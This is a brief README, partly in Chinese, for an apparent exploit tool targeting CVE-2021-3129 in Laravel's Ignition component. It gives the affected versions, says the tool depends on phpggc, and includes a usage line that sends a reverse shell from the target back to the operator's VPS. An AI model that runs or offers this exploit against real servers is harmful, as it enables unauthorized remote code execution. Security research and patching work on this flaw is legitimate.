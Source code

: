 # CVE-2021-3129

影响范围  Laravel <= 8.4.2. Ignition <2.5.2

# Environment

注意必须放在[phpggc](https://github.com/ambionics/phpggc)的目录下运行,且要有php-cli环境

# Usage
`python3 exp.py url vps_ip vps_port` 直接在vps上接受shell即可

![Snipaste_2021-04-10_09-40-45](./Snipaste_2021-04-10_09-40-45.jpg)



![Snipaste_2021-04-10_09-43-48](./Snipaste_2021-04-10_09-43-48.jpg)



# Vulnerability analysis

https://ccdragon.cc/?p=2829